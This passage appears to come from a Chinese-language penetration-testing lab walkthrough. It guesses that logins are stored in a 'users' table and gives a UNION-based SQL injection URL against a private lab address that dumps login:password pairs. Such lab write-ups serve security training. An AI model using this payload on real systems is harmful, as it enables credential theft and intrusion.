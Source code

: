         ![](hx_7.PNG)
        由图猜测用户名和密码存储在users数据表中
    - ##### 将users数据表中的内容显示出来
        ```
        http://10.0.2.7/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;
        ```